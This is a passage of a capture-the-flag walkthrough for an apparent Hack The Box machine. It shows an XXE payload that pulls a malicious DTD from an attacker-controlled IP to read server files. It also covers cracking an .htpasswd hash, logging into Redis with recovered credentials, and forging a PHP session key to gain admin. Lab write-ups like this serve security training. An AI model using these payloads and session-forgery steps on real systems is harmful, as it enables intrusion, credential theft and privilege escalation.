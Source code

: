 Payload used:

~~~
manage_api=<?xml version="1.0" ecoding="UTF-8"?>[<!ENTITY %xxe SYSTEM "http://10.10.14.120/mal.dtd"> %xxe;]><root><method>POST</method><uri>/auth/register<uri></uri><user><username>god</username><password>god</password><</user></root> ]
~~~


![[mal.dtd.png]]

From here, I wanted to read the **/var/www/developers/.htpasswd** file since we found a password on it earlier.

Using john , we could crack the hash to give r0cket as the password. We were confronted with another login page.

![[another login.png]]

another login , we got credentials by cracking hash 

~~~
developers_group : r0cket
~~~

We have to look for credentials in another location this time. The password is probably concealed in that Redis instance, and we can't access the **/etc/redis** file without root privileges, so there must be another file elsewhere. I attempted to locate any **config.php** files, but my search proved fruitless. Since the present directory was empty, I understood that we had to navigate one level up. After researching Redis, I stumbled upon the **bootstrap.php** file, which turned out to be the solution. This file was located at **bootstrap.php**.

![[redis auth.png]]

We can login via **redis-cli** wth credentials.

~~~
AUTH COLLECTR3D1SPASS
~~~
Now we can list all KEYs by 

~~~
KEYS *
~~~


![[get redis.png]]


We can see so many PHPREDIS_SESSION Keys, There just we have to set our account id to admin , when we used that token in our page after refreshing we will become  admin .

~~~
set PHPREDIS_SESSION:e50hu9lk5rkblb7tdlm3310fk4 "username|s:10:"testing123";role|s:5:"admin";auth|s:1:"a";"
~~~

here S:5 it is word count that means letter count..!!!

Then, replace the cookie and login to the developers.collect.htb endpoint.
